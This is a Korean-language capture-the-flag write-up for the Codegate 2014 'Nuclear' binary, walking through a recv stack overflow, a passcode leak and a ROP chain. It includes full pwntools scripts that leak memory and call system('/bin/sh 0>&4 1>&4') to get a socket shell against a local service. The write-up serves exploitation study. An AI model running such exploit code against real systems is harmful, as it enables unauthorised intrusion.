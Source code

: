 # Codegate 2014 Nuclear 풀이

문제 요약 : passcode를 leak한 다음 recv를 이용한 overflow를 요구하는 문제



먼저 공격 벡터를 찾아보기로 했다.

sub_8048B9C에 pthread_create에 인자인 start_routine 함수를 보면



![nuclear](./rsrc/nuclear_0.jpg)



분명히 buf는 524 바이트가 할당되어 있는데,  recv로 할당하는 크기는 0x512 즉 1298 바이트를 할당한다. 이 부분에서 stack overflow가 일어남을 알 수 있다.



근데 한 가지 문제가 있었다.



![nuclear](.\rsrc\nuclear_1.jpg)



launch를 하면 passcode를 입력해아하는데, 이 passcode는 THIS_IS_NOT_KEY_JUST_PASSCODE라는 파일을 읽어서 저장된 값이다.  근데 이 파일은 내가 만들었긴하지만 모른다는 가정하에 PASSCODE를 구하려면 어딘가에서 leak을 해야했다.



![nuclear](.\rsrc\nuclear_2.jpg)



leak 하기 전 스택의 상황을 살펴보니

| ret | sfp | newthread | str | v4 | v5 | passcode | v7 | *stream|으로 이루어진 것을 알 수 있다.

그리고 위를 바탕으로 leak을 할 수 있는 함수를 찾았더니



![nuclear](.\rsrc\nuclear_3.jpg)



아마 이것이 leak을 위한 함수 같다. 근데 이것만 이용하면 str을 다 채운다고 해도 v4, v5에 가로막혀 passcode의 값을 빼기는 힘들다.

그래서 v4, v5에 있을 NULL을 없애기 위한 방법을 찾아보았다.



![nuclear](.\rsrc\nuclear_4.jpg)

 

target이란 명령어를 입력하면 %f/%f로 v5와 &v4에 값을 채워넣는데 이 부분의 NULL을 없애면 아마 passcode를 leak할 수 있을 듯 하다.



이를 바탕으로 leak하는 함수를 짜보았다.

```python
from pwn import *

r = remote("localhost", 1129)

r.recvuntil("> ")
r.sendline("target")
r.recvuntil("---> ")
r.sendline("123.456798/123.456789") # v4와 v5의 값을 채워줌
r.recvuntil("> ")
r.sendline("A"*516)
r.recv(0x21e) # garbage 값 버리기
passcode = r.recv(1024)
print "[*] passcode : " + passcode
```



이를 실행해보면



![nuclear](.\rsrc\nuclear_5.jpg)



와~ passcode가 passcode였다. ㅋ



이제 launch 메뉴에서 passcode를 입력하고 공격 벡터를 공격하면 되겠다.

먼저 어떤 보호기법이 걸려있나 살펴보기로 한다.



![nuclear](.\rsrc\nuclear_6.jpg)



NX만 걸려있다. 그러면 일단 쉘코드 문제는 아니니깐 ROP를 하면 되겠다.

근데 plt를 구할 때, 나는 ELF를 이용하여 구했는데 이게 제대로 된 값이 아니었다... ㅠㅠ

그래서 어짜피 서버는 계속 똑같은 값을 가지고 있을 것이니깐 디버깅을 통해 함수 주소를 구해온 후  익스를 하기로 했다.



![nuclear](.\rsrc\nuclear_7.jpg)



이젠 그냥 이 주소를 가지고 rop를 때리면??



```python
from pwn import *
import time

binary = "./nuclear"
libc = "/lib/i386-linux-gnu/libc-2.23.so"

#context.log_level = "debug"

r = remote('localhost', 1129)
e = ELF(binary)

#time.sleep(10) # 디버깅을 위한 sleep

ppppr = 0x804917c
bss = e.bss()
recv = 0xf76b3340
system = 0xf7528da0

r.recvuntil("> ")
r.sendline("launch")
r.recvuntil(": ")
r.sendline("passcode")
r.recvuntil("COUNT DOWN : 100")

print "[*] gadget addr : " + hex(ppppr)
print "[*] bss addr : " + hex(bss)
print "[*] recv addr : " + hex(recv)
print "[*] system addr : " + hex(system)

payload = "A" * 528
payload += p32(recv)
payload += p32(ppppr)
payload += p32(4)
payload += p32(bss)
payload += p32(len("/bin/sh 0>&4 1>&4") + 1)
payload += p32(0)

payload += p32(system)
payload += "ABCD"
payload += p32(bss)

r.sendline(payload)
r.recv(1024)
r.sendline("/bin/sh 0>&4 1>&4")  # 그냥 /bin/sh 때리면 서버에서 처리됨
r.recv(1024)
r.interactive()
r.close()
```



이러면??



![nuclear](.\rsrc\nuclear_8.jpg)



성공!!!

